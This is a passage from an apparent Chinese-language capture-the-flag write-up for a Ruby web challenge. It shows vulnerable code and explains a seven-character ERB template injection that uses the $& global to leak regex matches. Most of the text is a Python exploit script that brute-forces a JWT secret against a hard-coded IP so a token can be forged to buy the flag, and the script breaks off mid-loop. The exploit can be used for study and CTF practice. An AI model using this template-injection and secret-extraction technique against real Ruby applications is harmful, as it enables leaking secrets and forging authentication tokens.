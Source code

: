 ```ruby
unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end
```

然后这里存在一个erb模版注入

```ruby
ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result
```

参考https://www.anquanke.com/post/id/86867

但是只能输入7个字符，除去<%==>只有两个字符可以利用，这时可以利用ruby全局变量$&，可以获得上一次正则匹配的结果，结合上面那个模糊的公就可以爆破JWT secret伪造jkl购买flag即可

exp:

```python
#python 3
import requests

import jwt
import base64
# pip install PyJWT

dic = "0123456789abcdefghijklmnopqrstuvwxyz"
secret = ""
host = "http://47.110.15.101"
authUrl = host+"/api/auth"
workUrl = host+"/work"
shopUrl = host+"/shop"

req = requests.session()
# 获取身份
req.get(authUrl)

die = False
for i in range(50):

    if die:
        break
    for j in dic:
        url = workUrl + "?SECRET=" + secret + j + "&" + "name=<%25=$%26%25>" + "&" + "do=<%25=$%26%25> is working"

        res = req.get(url)
        #print(res.text)
        if secret + j in res.text:
            secret += j
            print(secret)
            break
        else:
            if j == "z":
                die = True
                break
            continue

die = False
for i in range(50):
    if die:
        break
    for j in dic:
        url = workUrl + "?SECRET=" + j + secret + "&" + "name=<%25=$%26%25>" + "&" + "do=<%25=$%26%25> is working"
```
